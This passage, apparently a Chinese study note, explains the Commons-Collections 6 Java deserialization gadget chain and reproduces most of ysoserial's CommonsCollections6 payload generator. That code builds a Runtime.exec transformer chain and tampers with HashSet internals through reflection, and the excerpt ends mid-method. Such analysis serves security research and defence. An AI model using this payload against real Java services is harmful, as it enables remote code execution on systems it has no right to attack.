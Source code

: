 那么接下来就是需要找一个调用`TiedMapEntry#hashCode`的地方。

ysoserial 的 链子中用了HashSet，实际上readObject可以直接调用到HashMap#hash(key)，可以略过中间这个需要HashSet的部分。

CC6 Gadget：
java.util.HashSet#readObject
-> HashMap#put() 不一定需要
-> HashMap#hash(key)
-> TiedMapEntry#hashCode()
-> lazyMap#get()
-> ChainedTransformer#transform()
-> ConstantTransformer#transform()


CC6 HashSet 版 POC:
```java
public class CommonsCollections6 extends PayloadRunner implements ObjectPayload<Serializable> {

    public Serializable getObject(final String command) throws Exception {

        final String[] execArgs = new String[] { command };

        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        Reflections.setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        Reflections.setAccessible(f2);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
```